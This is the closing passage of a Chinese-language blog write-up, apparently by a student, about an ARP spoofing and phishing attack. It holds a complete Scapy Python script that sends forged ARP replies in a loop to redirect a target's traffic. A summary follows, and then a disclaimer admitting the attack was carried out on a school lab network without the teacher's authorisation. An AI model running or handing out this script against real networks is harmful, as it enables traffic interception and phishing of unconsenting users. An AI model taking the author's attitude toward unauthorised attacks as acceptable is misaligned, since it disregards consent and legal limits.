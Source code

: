 ```python
from scapy.all import *
import time
from scapy.layers.l2 import Ether, ARP

spoof_ip = "192.168.1.140"
spoof_mac = "00:0c:29:f8:9c:62"

target_ip = "192.168.1.141"
target_mac = "00:0C:29:D3:B2:4E"

server_ip = "192.168.1.142"
server_mac = "00:0c:29:ac:a9:b3"


def run():
    ether = Ether(src=spoof_mac, dst=target_mac)
    arp = ARP(hwsrc=server_mac, psrc=server_ip, hwdst=target_mac, pdst=target_ip, op=2)
    package = ether / arp  # 构建ARP欺骗的数据包
    while True:
        sendp(package)
        time.sleep(1)


if __name__ == "__main__":
    run()

```

​	至此，一次完美的钓鱼攻击，就结束了。

#### 5、总结

​	这次实战与其说是一次ARP欺骗攻击，不如说是一次社会工程学攻击，因为实际的payload还是后面的钓鱼部分，ARP欺骗只不过是为后面的钓鱼攻击建立有利环境。这种社会工程学攻击还是很难防范的，毕竟没人天天上个网还要仔仔细细的分辨，页面是真的还是假的，而黑客的攻击往往是这样的，以有心算无心。

**最后，严肃声明！本次攻击实验虽然未得到老师的授权（毕竟钓鱼攻击，提前告知就没有意义了），但是并未造成任何的经济损失和系统故障，且攻击环境为机房环境，并未涉及机密或敏感内容。如果本文的阅读者用笔者提供的方法做任何违法法律法规的事，其行为与笔者无关！请遵守《网络安全法》的相关规定，做守法市民！**

